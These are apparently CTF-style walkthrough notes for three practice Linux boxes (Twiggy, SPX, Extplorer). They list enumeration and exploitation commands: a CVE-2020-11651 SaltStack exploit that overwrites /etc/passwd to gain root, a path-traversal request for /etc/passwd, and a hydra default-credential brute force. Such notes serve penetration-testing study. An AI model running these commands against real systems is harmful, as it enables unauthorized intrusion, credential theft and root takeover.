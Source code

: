 ### Twiggy - Easy Linux Box

**Initial Enumeration:**
```bash
nmap -sC -sV -p- <target_ip>
# Ports: 22, 53, 80, 4505, 4506, 8000
```

**Web Enumeration:**
```bash
curl http://<target_ip>:8000
# Identifies SaltStack/CherryPy
```

**Exploitation:**
```bash
# Use CVE-2020-11651 exploit
python3 48421.py --master <target_ip> --read /etc/passwd
python3 48421.py --master <target_ip> --upload-src passwd_new --upload-dest /etc/passwd
ssh root@<target_ip>
```

### SPX - Intermediate Linux Box

**Initial Enumeration:**
```bash
nmap -sC -sV <target_ip>
curl http://<target_ip>
```

**Web Enumeration:**
```bash
feroxbuster -u http://<target_ip> -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
# Discover web application paths
```

**Exploitation:**
```bash
# Path traversal vulnerability
curl "http://<target_ip>/spx?path=../../../../etc/passwd"
# RCE via parameter manipulation
```

### Extplorer - Intermediate Linux Box

**Initial Enumeration:**
```bash
nmap -sC -sV <target_ip>
curl http://<target_ip>/filemanager/
```

**Authentication Bypass:**
```bash
# Default credentials
hydra <target_ip> http-post-form "/filemanager/index.php:username=^USER^&password=^PASS^:Login failed" -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt
# Credentials: admin:admin
```
